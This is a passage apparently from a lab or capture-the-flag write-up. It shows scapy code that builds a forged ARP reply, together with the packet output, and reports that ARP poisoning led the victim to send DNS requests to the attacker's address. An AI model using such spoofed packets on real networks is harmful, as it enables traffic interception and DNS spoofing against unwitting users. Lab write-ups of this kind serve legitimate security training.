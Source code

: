 ```
### Testing
This ARP packet was tested by constructing it via `scapy` and printing it make sure it matched the expected value above.
Sample constructed with the following code

<table><tr><td>Python Code</td><td>Output</td></tr>
<tr><td>

```python
if __name__ == "__main__":
a = ARP(pdst="10.6.6.35")

a.op = 2 # arp reply
a.plen = 4
a.hwlen = 6
a.ptype = 2048
a.hwtype = 1
a.hwsrc = "02:42:0a:06:00:03"
a.psrc = "10.6.0.3"
a.pdst = "10.6.6.35"
a.hwdst = "4c:24:57:ab:ed:84"
a.show()
```

</td><td>

```bash
###[ ARP ]###
hwtype    = 0x1
ptype     = IPv4
hwlen     = 6
plen      = 4
op        = is-at
hwsrc     = 02:42:0a:06:00:03
psrc      = 10.6.0.3
hwdst     = 4c:24:57:ab:ed:84
pdst      = 10.6.6.35
```

</td></tr></table>

These changes have been replicated into [arp_res.py](arp_res.py) python script.
### Results
After poisoning the ARP request/response flow, the victim then issues a DNS request to the poisoned address. This validates the first guess during enumeration that DNS spoofing would be required.